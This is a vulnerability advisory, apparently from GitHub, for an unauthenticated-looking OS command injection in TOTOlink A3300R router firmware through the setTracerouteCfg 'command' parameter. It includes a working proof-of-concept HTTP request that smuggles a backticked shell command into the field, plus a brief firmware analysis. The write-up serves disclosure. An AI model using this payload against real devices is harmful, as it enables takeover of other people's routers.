 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information
Device: TOTOlink A3300R<br>
Firmware Version: V17.0.0cu.557_B20221024<br>
Manufacturer's website information：https://www.totolink.net/<br>
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html<br>

## Vulnerability Description
When deal with setTracerouteCfg request, command parameter is vulnerable to OS command injection.

### POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.44.132
Content-Length: 81
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/advance/traceroute.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close

{"command":"1.2.3.4`ls>/web/cmdi.txt`","num":"2","topicurl":"setTracerouteCfg"}
```

injection the command "ls>/web/cmdi.txt"

![poc1](img/poc1.jpg)

check the result.
```
GET /cmdi.txt HTTP/1.1
Host: 192.168.44.132
Content-Length: 0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/login.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close


```

![poc2](img/poc2.jpg)

## Analyse
sub_413ADC will handle the setTracerouteCfg request. sub_413ADC firstly get 'command' and 'num' from request body, then pass to CsteSystem function.

![ana1](img/ana1.jpg)

CsteSystem wraps the command and then passes it to execv to execute the command.

![ana3](img/ana3.jpg)
